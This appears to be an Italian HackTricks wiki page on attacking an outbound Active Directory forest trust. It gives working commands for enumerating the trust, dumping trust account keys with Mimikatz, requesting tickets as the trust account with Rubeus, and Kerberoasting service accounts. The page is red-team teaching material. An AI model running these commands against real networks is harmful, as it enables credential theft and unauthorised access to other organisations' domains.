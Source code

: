 # Dominio Forestale Esterno - Unidirezionale (In Uscita)

{% hint style="success" %}
Impara e pratica il Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

In questo scenario **il tuo dominio** sta **fidando** alcuni **privilegi** a un principale di **domini diversi**.

## Enumerazione

### Fiducia in Uscita
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

Una vulnerabilità di sicurezza esiste quando viene stabilita una relazione di fiducia tra due domini, identificati qui come dominio **A** e dominio **B**, dove il dominio **B** estende la sua fiducia al dominio **A**. In questa configurazione, viene creato un account speciale nel dominio **A** per il dominio **B**, che gioca un ruolo cruciale nel processo di autenticazione tra i due domini. Questo account, associato al dominio **B**, viene utilizzato per crittografare i ticket per accedere ai servizi tra i domini.

L'aspetto critico da comprendere qui è che la password e l'hash di questo account speciale possono essere estratti da un Domain Controller nel dominio **A** utilizzando uno strumento da riga di comando. Il comando per eseguire questa azione è:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Questa estrazione è possibile perché l'account, identificato con un **$** dopo il suo nome, è attivo e appartiene al gruppo "Domain Users" del dominio **A**, ereditando così i permessi associati a questo gruppo. Ciò consente agli individui di autenticarsi contro il dominio **A** utilizzando le credenziali di questo account.

**Attenzione:** È possibile sfruttare questa situazione per ottenere un accesso nel dominio **A** come utente, sebbene con permessi limitati. Tuttavia, questo accesso è sufficiente per eseguire l'enumerazione nel dominio **A**.

In uno scenario in cui `ext.local` è il dominio fiducioso e `root.local` è il dominio di fiducia, un account utente chiamato `EXT$` verrebbe creato all'interno di `root.local`. Attraverso strumenti specifici, è possibile estrarre le chiavi di fiducia di Kerberos, rivelando le credenziali di `EXT$` in `root.local`. Il comando per ottenere questo è:
```bash
lsadump::trust /patch
```
Seguendo questo, si potrebbe utilizzare la chiave RC4 estratta per autenticarsi come `root.local\EXT$` all'interno di `root.local` utilizzando un altro comando dello strumento:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Questo passaggio di autenticazione apre la possibilità di enumerare e persino sfruttare i servizi all'interno di `root.local`, come eseguire un attacco Kerberoast per estrarre le credenziali degli account di servizio utilizzando:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Raccolta della password di fiducia in chiaro

Nel flusso precedente è stato utilizzato l'hash di fiducia invece della **password in chiaro** (che è stata anche **estratta da mimikatz**).

La password in chiaro può essere ottenuta convertendo l'output \[ CLEAR ] di mimikatz da esadecimale e rimuovendo i byte nulli ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

A volte, quando si crea una relazione di fiducia, l'utente deve digitare una password per la fiducia. In questa dimostrazione, la chiave è la password di fiducia originale e quindi leggibile dall'uomo. Man mano che la chiave cicla (30 giorni), la password in chiaro non sarà leggibile dall'uomo ma tecnicamente ancora utilizzabile.

La password in chiaro può essere utilizzata per eseguire l'autenticazione regolare come account di fiducia, un'alternativa alla richiesta di un TGT utilizzando la chiave segreta Kerberos dell'account di fiducia. Qui, interrogando root.local da ext.local per i membri di Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Riferimenti

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

